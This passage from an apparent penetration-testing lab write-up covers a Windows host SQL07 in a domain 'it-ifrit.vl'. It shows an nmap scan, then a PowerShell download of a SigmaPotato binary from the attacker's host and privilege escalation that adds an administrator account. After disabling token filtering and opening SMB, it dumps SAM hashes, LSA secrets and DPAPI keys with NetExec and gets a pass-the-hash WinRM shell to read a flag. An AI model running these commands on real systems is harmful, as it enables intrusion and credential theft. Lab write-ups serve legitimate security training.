

As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT     STATE SERVICE       REASON         VERSION
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: IT-IFRIT
|   NetBIOS_Domain_Name: IT-IFRIT
|   NetBIOS_Computer_Name: SQL07
|   DNS_Domain_Name: it-ifrit.vl
|   DNS_Computer_Name: SQL07.it-ifrit.vl
|   DNS_Tree_Name: it-ifrit.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T13:18:00+00:00
|_ssl-date: 2026-04-01T13:18:05+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SQL07.it-ifrit.vl
| Issuer: commonName=SQL07.it-ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T02:45:29
| Not valid after:  2026-09-30T02:45:29
| MD5:     4d72 57e5 3704 22e5 8e8b 792a 0867 b54f
| SHA-1:   60e0 e0a3 b017 db25 e662 d013 c7b0 604f 2129 7772
| SHA-256: 3794 783d 94b2 9fe4 7e57 de48 0f7d a8b7 4762 1b8c cbb6 d349 c8a7 29f4 bccc 7ea7
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQP5iPdk+I3ZJCjN5z8Zz8PzANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFTUUwwNy5pdC1pZnJpdC52bDAeFw0yNjAzMzEwMjQ1MjlaFw0y
| NjA5MzAwMjQ1MjlaMBwxGjAYBgNVBAMTEVNRTDA3Lml0LWlmcml0LnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3oNvydhUZFGadsNpJMwsF/ciluwl
| 2ne3Wwe2tn/ha2KnoZiNFrXknZmVMmZ7/7nqN9CDzLsDnF0nRazXfS03z0b6XdwQ
| sO8R0EBZTFcEKjezDpXvDDWMPDGHbS5rZaogU0169oFp9qiS4W14qjpFU478Z6/Z
| J1VlgPOh3ouEd0pVxFz9WkEdH4PXk8DbTXLyN0oyeHaB021eZtRoMLeM7Ysop1Pv
| gsl/0isLnZxRpvdaUUmX27VrUdY6wC6hlKG3z4nMOL/oeTtxtkh4g9mAZguf+r1z
| +ezrc5zACJ+uqnyprOaV3TtHNr5WiMknnVMmmNVmpAQ10avztR9iXSH4fQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBANBoKTiJeUKd/DfjQZkqL0cwwzR2OwsuzXLjtG4OvIoUfpOLsKkP
| MvBYbQ2l0N/eG7fTmVDbeDDrlrQgOpntIWdI5qYUo48dTUyARARX/nvuxBH7dvX4
| DIOeuwJ8HObYIaSdo241GQE8uc8unvbea76y2r0HAQQ/VZQSnSMbZtGRWjLVWz3B
| jaxJ9cuiCQmRXdp9L3f7Xfoz+vxJmjbCfZ4NUVg/YkXNDQk77XPuWzzAmOLoBmvf
| 5ia0MB85sgcqgn5fAQ/u91+amSRij4Dr3SnYIEk6PRn4imuoxU1VeNlwBtndx7hW
| hdHRu2M/SX4s/Ik2R6LWkmNRvjrOwt4LVmo=
|_-----END CERTIFICATE-----
5985/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/1%OT=3389%CT=%CU=%PV=Y%G=N%TM=69CD1B0D%P=x86_64-pc-linux-gnu)
SEQ(SP=FA%GCD=1%ISR=103%TI=I%CI=I%TS=A)
SEQ(SP=FC%GCD=1%ISR=109%TI=I%CI=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=N)

```

# MSSQL

With the linked server abuse I am into this server and I dropped a shell as local service running on this server:

here you have to be fast because even if the exe is obfuscated it get's deleted after 10 seconds or so:

```bash
\Windows\Tasks>powershell -c Invoke-WebRequest -Uri http://10.10.14.9/sigma.exe -OutFile sigma.exe
powershell -c Invoke-WebRequest -Uri http://10.10.14.9/sigma.exe -OutFile sigma.exe

C:\Windows\Tasks>sigma.exe "cmd.exe /c net user yovecio Coglione1! /add & net localgroup Administrators yovecio /add"
sigma.exe "cmd.exe /c net user yovecio Coglione1! /add & net localgroup Administrators yovecio /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 916 | Token: 0x772 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1020
[+] Current Command Length: 88 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 10160

[+] Process Output:
The command completed successfully.

The command completed successfully.


C:\Windows\Tasks>

```

But since my goal is to dump from WIndows I will temporarly allow the SMB in the firewall:

C:\\Windows\\Tasks>sigma.exe "netsh advfirewall firewall add rule name='OpenSMB' dir=in action=allow protocol=TCP localport=445"  
sigma.exe "netsh advfirewall firewall add rule name='OpenSMB' dir=in action=allow protocol=TCP localport=445"  
\[+\] Starting Pipe Server...  
\[+\] Created Pipe Name: \\\\.\\pipe\\SigmaPotato\\pipe\\epmapper  
\[+\] Pipe Connected!  
\[+\] Impersonated Client: NT AUTHORITY\\NETWORK SERVICE  
\[+\] Searching for System Token...  
\[+\] PID: 916 | Token: 0x772 | User: NT AUTHORITY\\SYSTEM  
\[+\] Found System Token: True  
\[+\] Duplicating Token...  
\[+\] New Token Handle: 992  
\[+\] Current Command Length: 97 characters  
\[+\] Creating Process via 'CreateProcessAsUserW'  
\[+\] Process Started with PID: 2440

\[+\] Process Output:  
Ok.

&nbsp;

C:\\Windows\\Tasks>

&nbsp;

And also disable the local user token filterization:

```bash
C:\Windows\Tasks>sigma.exe "C:\Windows\System32\reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
sigma.exe "C:\Windows\System32\reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"

[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 916 | Token: 0x772 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1052
[+] Current Command Length: 148 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 9084

[+] Process Output:
The operation completed successfully.


C:\Windows\Tasks>

```

Now I can well dump some credentials from the secret hives:

```bash
└─$ netexec smb 172.16.41.251 -u yovecio -p 'Coglione1!' --local-auth --sam --lsa --dpapi
SMB         172.16.41.251   445    SQL07            [*] Windows Server 2022 Build 20348 (name:SQL07) (domain:SQL07) (signing:False) (SMBv1:None)
SMB         172.16.41.251   445    SQL07            [+] SQL07\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.41.251   445    SQL07            [*] Dumping SAM hashes
SMB         172.16.41.251   445    SQL07            Administrator:500:aad3b435b51404eeaad3b435b51404ee:a47d4c7819c0e397d7f6b9c86cfd1895:::
SMB         172.16.41.251   445    SQL07            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.251   445    SQL07            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.251   445    SQL07            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b71162f2ac5b78ddaffc54238dca4867:::
SMB         172.16.41.251   445    SQL07            yovecio:1001:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
SMB         172.16.41.251   445    SQL07            [+] Added 5 SAM hashes to the database
SMB         172.16.41.251   445    SQL07            [*] Dumping LSA secrets
SMB         172.16.41.251   445    SQL07            IT-IFRIT\SQL07$:aes256-cts-hmac-sha1-96:4bb1efab76722bf7937f526dd949bcfa73ac9f49e8c0290c12d6e02d400c9c01
SMB         172.16.41.251   445    SQL07            IT-IFRIT\SQL07$:aes128-cts-hmac-sha1-96:6776b5d342a652d1dd981f32de6c2813
SMB         172.16.41.251   445    SQL07            IT-IFRIT\SQL07$:des-cbc-md5:ba43b686075be5f4
SMB         172.16.41.251   445    SQL07            IT-IFRIT\SQL07$:plain_password_hex:0e348487e0a7f7f334d96441db05edd47a7247d1dcb3e6e8b80efd56f42cd0c87dc3abc0968e4892d74bb73a8278246536c11b550cdef63581ce02eaa6fcc811aed723879de6c9594c9623d26f455808f5fa9864b3c97526c4f18b565a221b43092e8d02f9c4b88119d76e19e3030bc6816993319e5a24acb9cd5ec279b1df94a4b1f38b272a0bc3ffe1afc9258adba6756899a0df7e0f55b4cf06e4c2f91cc861def5742d211271c1bf0b5f16885f2ef091869f298f988908031ba40ffa47251325e52fa780b0b2df95dfaf482a6aad024222654402a4e2aa1035a10b1847c45414ea58fb95c96c6d87a3415b7b5cdc
SMB         172.16.41.251   445    SQL07            IT-IFRIT\SQL07$:aad3b435b51404eeaad3b435b51404ee:78f6497ad89e352b40cb4433dcdbf59a:::
SMB         172.16.41.251   445    SQL07            dpapi_machinekey:0x3be48e81e6ef745644ed57e11b4b4f1ea0436652
dpapi_userkey:0x811d3073680810ac33873c06cf1175796a7b26f9
SMB         172.16.41.251   445    SQL07            [+] Dumped 6 LSA secrets to /home/user/.nxc/logs/lsa/SQL07_172.16.41.251_2026-04-02_140236.secrets and /home/user/.nxc/logs/lsa/SQL07_172.16.41.251_2026-04-02_140236.cached
SMB         172.16.41.251   445    SQL07            [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.41.251   445    SQL07            [+] Got 7 decrypted masterkeys. Looting secrets...
                                                                                                          
```

And now I can grab another flag:

```bash
evil-winrm-py -i 172.16.41.251 -u Administrator -H a47d4c7819c0e397d7f6b9c86cfd1895
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '172.16.41.251:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> cd
evil-winrm-py PS C:\Users\Administrator\Documents> cd ..
evil-winrm-py PS C:\Users\Administrator> cat Desktop/flag.txt
IFRIT{9f27c845ed6494f977aaf249e90c69cc}
evil-winrm-py PS C:\Users\Administrator>

```

# Post Exploitation

Now that I have a valid set of credentials in the other(IT) realm I will perform another Bloodhound scan.



I will move to the FS02 as next step in the attack chain.